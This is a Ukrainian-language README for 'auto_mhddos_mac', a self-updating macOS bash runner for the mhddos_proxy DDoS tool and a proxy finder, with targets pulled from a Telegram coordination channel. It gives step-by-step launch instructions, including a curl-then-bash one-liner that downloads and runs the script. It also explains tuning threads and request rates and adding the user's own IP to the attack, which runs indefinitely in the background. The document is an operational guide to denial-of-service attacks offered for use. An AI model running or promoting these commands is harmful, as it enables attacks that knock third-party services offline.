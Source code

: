 # Опис auto_mhddos_mac

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Mac-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)    
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy та proxy_finder   
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє ваші машини по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_linux (цілі беруться звідси: https://t.me/ddos_separ)  
  
[**Варіант для Windows**](https://github.com/alexnest-ua/runner_for_windows)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)   
[**Варіант для Android**](https://telegra.ph/mhddos-proxy-for-Android-with-Termux-03-31)   
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси старі процеси з mhddos_proxy (щоб старі атаки не накопичувалися)**

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Mac запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

# Запуск скрипта
1) Заходимо в Launchpad, щоб відкрити термінал  
![image](https://user-images.githubusercontent.com/74729549/167318008-ec0e5caf-dc57-4d29-a352-8b41c49d4fe2.png)
2) Шукаємо terminal  
![image](https://user-images.githubusercontent.com/74729549/167318025-d7d89817-4e83-4118-8c35-fbf37e59fdea.png)
3) Запускаємо Термінал  
![image](https://user-images.githubusercontent.com/74729549/167318042-f892bec6-7a8b-4ad7-aed1-f625f2e92fd4.png)
4) Запускаємо скрипт, який сам встановить необхідні програми: Brew, Python, Git, доп. засоби Баш'у (можливо попросить ввести пароль для установки, 10 Гб вільного місця на диску та натиснути ENTER, щоб продовжити завантаження - тому слідкуйте уважно за виконанням скрипта при першому запуску), та після установки сам запустить mhddos_proxy та proxy_finder:
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh
```
    
* Буде запущено атаку з наступними параметрами за замовчуванням: threads=1000 rpc=1000 debug="" vpn=""(1000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР) та автоматично запустить паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
  
**Далі можна просто ЗГОРНУТИ вікно і воно буде працювати нескінченно в фоні**  
***щоб зупинити процес - натисніть Ctrl+C (або якщо не спрацює просто закрийте вікно з атакою)***  
  
Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки та перевіряти наявність оновлення (та встановлювати його якщо воно є)  
  
**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 2)), але можно і без них:  
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh [threads] [rpc] [debug] [vpn]  
- threads - кількість потоків (але не менше 1000, та не більше 3000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 2500)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі
  
* У всіх варіантах буде автоматично запущено паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
  

**ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ті, що за замовчуванням.**  
**також можете додавати **3-тим** параметром --debug, що слідкувати за ходом атаки, та **4-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі**  
*наприклад команда з 2000 threads 2000 rpc дебагом та доп. атакою через ваш ІР*  
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh 2000 2000 --debug --vpn
```
* Приклад **БЕЗ** параметру --debug:  
![image](https://user-images.githubusercontent.com/74729549/168069087-1d1d641e-4ded-43b8-99e4-1d0688e3d2f0.png)  
***наступні 5 хвилин буде виводитись лише інформація від proxy_finder про пошук проксі, але атака теж йде паралельно!***  
* Приклад **З** параметрами --debug та --vpn:  
![image](https://user-images.githubusercontent.com/74729549/168068441-0be60ba6-49c7-41de-a89c-c50410a50fef.png)  
  
Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки та перевіряти наявність оновлення (та встановлювати його якщо воно є)  

